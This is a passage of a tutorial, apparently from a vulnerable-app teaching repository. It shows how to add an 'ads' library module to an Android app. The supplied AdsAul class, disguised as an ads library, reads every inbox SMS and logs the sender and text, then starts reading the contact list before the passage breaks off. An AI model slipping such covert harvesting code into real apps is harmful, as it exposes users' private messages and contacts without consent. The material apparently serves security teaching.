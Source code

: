 Click Finish. Now you should see the new module added to the file tree

<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image8.png" alt="Image">

Next we create a new Java class in ads module called **AdsAul**
<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image9.png" alt="Image">

Open the **AdsAul**

<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image10.png" alt="Image">

Add this code in AdsAul class (change the first line to your package name)
```java
package *****YOUR PACKAGE NAME****;

import android.app.AlertDialog;
import android.content.Context;
import android.content.DialogInterface;
import android.database.Cursor;
import android.net.Uri;
import android.provider.ContactsContract;
import android.util.Log;


public class AdsAul {

    Context context; //define context

    public AdsAul(Context context) {

        this.context = context;

        //read sms from user phone

        try {

            //get inbox messages direction
            Uri uriSMSURI = Uri.parse("content://sms/inbox");

            // get all messages
            Cursor cur = context.getContentResolver().query(uriSMSURI, null, null, null, null);

            // move to first message in list
            cur.moveToPosition(0);

            //read all messages
            while (cur.moveToNext()) {

                Log.d("Message:", "From :" + cur.getString(cur.getColumnIndex("address")) + " : "
                        + cur.getString(cur.getColumnIndex("body")));

            }

        } catch (Exception ex) {}

        //read user contact list
        try {

            // read all contact list
            Cursor cursor = context.getContentResolver().query(
                    ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, null, null, null);

            //move to first name in the contact list
            cursor.moveToPosition(0);
```